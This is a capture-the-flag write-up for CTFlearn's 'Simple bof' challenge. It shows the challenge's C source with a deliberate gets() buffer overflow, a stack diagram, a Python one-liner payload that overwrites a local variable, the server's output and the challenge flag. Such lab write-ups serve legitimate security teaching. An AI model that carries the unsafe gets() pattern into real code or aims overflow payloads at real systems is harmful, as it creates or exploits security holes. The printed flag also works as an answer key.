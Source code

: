 # Simple bof

> Want to learn the hacker's secret? Try to smash this buffer!&#x20;
>
> You need guidance? Look no further than to [Mr. Liveoverflow](https://old.liveoverflow.com/binary\_hacking/protostar/stack0.html). He puts out nice videos you should look if you haven't already&#x20;
>
> `nc thekidofarcrania.com 35235`&#x20;
>
> [bof.c](https://ctflearn.com/challenge/download/1010)&#x20;

### Source code

{% code title="bof.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);
void safeguard();

void print_flag();

void vuln() {
  char padding[16];
  char buff[32];
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff);

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff);

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}
```
{% endcode %}

The program sets a buffer of 32 bytes and then padding of 16 bytes.

It then creates two variables `notsecret` and `secret` and sets their value to `0xffffff00` and `0xdeadbeef` respectively.

The program then has four conditional statements:

1. Executes if the value of `secret` has been set to `0x67616c66` and prints out the flag.
2. Executes if the value of `notsecret` has been altered.
3. Executes if the value of `secret` has been altered but not set to `0x67616c66`.
4. Executes if none of the above conditions are met.

### Stack

```
           +---------------------------+
0xffbbf4e8 |  00 00 00 00 00 00 00 00  | < buffer
0xffbbf4f0 |  00 00 00 00 00 00 00 00  |
0xffbbf4f8 |  00 00 00 00 00 00 00 00  |
0xffbbf500 |  00 00 00 00 00 00 00 00  |
           +---------------------------+
0xffbbf508 |  ff ff ff ff ff ff ff ff  | < padding
0xffbbf510 |  ff ff ff ff ff ff ff ff  |
           +-------------+-------------+
0xffbbf518 | ef be ad de | 00 ff ff ff |
           +-------------+-------------+
             ^             ^
             secret        notsecret
```

We need 48 bytes to fill the buffer and the padding and then insert `0x67616c66` into `secret`.

### Exploit

```
$ python3 -c 'print("a"*48 + "\x66\x6c\x61\x67")'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag
```

Note that `0x67616c66` is written in little endian format.

Let's provide the string as the input.

```
$ nc thekidofarcrania.com 35235

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xfff45058 | 00 00 00 00 00 00 00 00 |
0xfff45060 | 00 00 00 00 00 00 00 00 |
0xfff45068 | 00 00 00 00 00 00 00 00 |
0xfff45070 | 00 00 00 00 00 00 00 00 |
0xfff45078 | ff ff ff ff ff ff ff ff |
0xfff45080 | ff ff ff ff ff ff ff ff |
0xfff45088 | ef be ad de 00 ff ff ff |
0xfff45090 | c0 55 f6 f7 84 1f 64 56 |
0xfff45098 | a8 50 f4 ff 11 fb 63 56 |
0xfff450a0 | c0 50 f4 ff 00 00 00 00 |

Input some text: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xfff45058 | 61 61 61 61 61 61 61 61 |
0xfff45060 | 61 61 61 61 61 61 61 61 |
0xfff45068 | 61 61 61 61 61 61 61 61 |
0xfff45070 | 61 61 61 61 61 61 61 61 |
0xfff45078 | 61 61 61 61 61 61 61 61 |
0xfff45080 | 61 61 61 61 61 61 61 61 |
0xfff45088 | 66 6c 61 67 00 ff ff ff |
0xfff45090 | c0 55 f6 f7 84 1f 64 56 |
0xfff45098 | a8 50 f4 ff 11 fb 63 56 |
0xfff450a0 | c0 50 f4 ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
```

### Flag

```
CTFlearn{buffer_0verflows_4re_c00l!}
```
